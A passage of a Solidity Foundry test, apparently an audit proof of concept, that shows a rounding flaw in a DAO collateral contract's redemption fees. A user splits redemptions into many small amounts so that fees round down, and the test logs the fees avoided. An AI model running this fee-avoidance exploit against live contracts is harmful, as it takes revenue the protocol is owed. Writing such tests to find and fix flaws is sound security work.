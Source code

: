 ```solidity
    }
    
    /**
     * @dev Test exploit scenario where attacker uses multiple small redemptions
     */
    function testMultipleSmallRedemptionExploit() public {
        console.log("\n=== MULTIPLE SMALL REDEMPTION EXPLOIT ===");
        
        // Setup 6-decimal token
        uint256 amount = 10000e6; // 10,000 tokens
        (RwaMock token6, Eth0 eth0Token) = _setupTokenWithDecimals(6, amount);
        
        // Alice swaps to get ETH0
        vm.startPrank(alice);
        daoCollateral.swap(address(token6), amount, 0);
        vm.stopPrank();
        
        uint256 totalETH0 = eth0Token.balanceOf(alice);
        console.log("Alice total ETH0 balance:", totalETH0 / 1e18);
        
        // Strategy: Redeem in many small amounts to maximize fee avoidance
        uint256 smallRedeemAmount = 99_999_999_999_999; // Amount that causes fee loss
        uint256 numRedemptions = totalETH0 / smallRedeemAmount;
        
        console.log("Small redemption amount:", smallRedeemAmount);
        console.log("Number of redemptions:", numRedemptions);
        
        uint256 totalFeesAvoided = 0;
        uint256 totalExpectedFees = 0;
        
        vm.startPrank(alice);
        
        // Perform multiple small redemptions
        for (uint256 i = 0; i < 10 && i < numRedemptions; i++) { // Limit to 10 for demo
            uint256 beforeBalance = token6.balanceOf(alice);
            uint256 beforeYieldBalance = eth0Token.balanceOf(treasuryYield);
            
            daoCollateral.redeem(address(token6), smallRedeemAmount, 0);
            
            uint256 afterYieldBalance = eth0Token.balanceOf(treasuryYield);
            uint256 actualFee = afterYieldBalance - beforeYieldBalance;
            uint256 expectedFee = Math.mulDiv(smallRedeemAmount, daoCollateral.redeemFee(), BASIS_POINT_BASE, Math.Rounding.Floor);
            
            totalFeesAvoided += (expectedFee - actualFee);
            totalExpectedFees += expectedFee;
            
            if (i < 3) { // Show details for first few redemptions
                console.log("Redemption", i + 1, ":");
                console.log("  Expected fee:", expectedFee);
                console.log("  Actual fee:", actualFee);
                console.log("  Fee avoided:", expectedFee - actualFee);
            }
        }
        
        vm.stopPrank();
        
        console.log("\nTotal expected fees (10 redemptions):", totalExpectedFees);
        console.log("Total fees avoided:", totalFeesAvoided);
        console.log("Fee avoidance percentage:", (totalFeesAvoided * 100) / totalExpectedFees, "%");
        
        // Project the full exploit potential
```
